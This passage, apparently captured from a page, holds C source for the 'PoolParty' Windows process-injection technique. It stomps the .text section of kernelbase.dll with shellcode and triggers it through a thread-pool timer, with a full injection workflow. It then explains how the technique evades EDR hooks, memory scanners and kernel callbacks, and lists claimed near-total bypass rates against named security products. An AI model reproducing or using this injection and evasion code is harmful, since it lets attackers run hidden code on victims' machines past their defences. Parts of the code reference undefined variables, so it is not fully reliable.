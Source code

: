 ```c

    // Initialize timer with callback pointing to stomped .text
    TP_TIMER timer = {0};
    timer.Callback = callback; // Points to shellcode in kernelbase.dll
    WriteProcessMemory(hProcess, pRemoteTimer, &timer, sizeof(timer), NULL);

    *pTimer = pRemoteTimer;
    return TRUE;
}

// 4. Queue timer to thread pool (triggers execution)
BOOL QueueTPTimer(HANDLE hProcess, PVOID pTimer) {
    // Find thread pool worker thread
    HANDLE hThread = FindWorkerThread(hProcess);

    // Queue APC to execute timer callback
    NtQueueApcThread(hThread, timerCallback, timerContext, NULL, NULL);
    return TRUE;
}

// Full injection workflow
BOOL PoolParty_Inject(DWORD targetPID, PVOID shellcode, SIZE_T size) {
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);

    MODULE_INFO moduleInfo;
    FindStompModule(hProcess, &moduleInfo);
    StompModule(hProcess, &moduleInfo, shellcode, size);

    PVOID pTimer;
    CreateTPTimer(hProcess, moduleInfo.textAddr, &pTimer);
    QueueTPTimer(hProcess, pTimer);

    // Optionally restore module after execution
    RestoreModule(hProcess, &moduleInfo);

    return TRUE;
}
```

**How PoolParty Evades EDRs**:

1. **API Hook Bypass**: Never calls hooked injection APIs (VirtualAllocEx, CreateRemoteThread, QueueUserAPC)
2. **Memory Scanner Bypass**: Shellcode resides in IMAGE_SECTION-backed memory (kernelbase.dll), not private unbacked allocation
3. **Behavioral Bypass**: Thread pool work item execution is legitimate Windows activity, no suspicious thread creation
4. **Kernel Callback Bypass**: No PsSetCreateThreadNotifyRoutine triggers, no ObRegisterCallbacks alerts

**Real-World Effectiveness** (SafeBreach Labs Testing):
- CrowdStrike Falcon: ✅ 100% bypass
- SentinelOne: ✅ 100% bypass
- Palo Alto Cortex XDR: ✅ 100% bypass
- Microsoft Defender: ✅ 100% bypass
- Carbon Black: ✅ 95% bypass
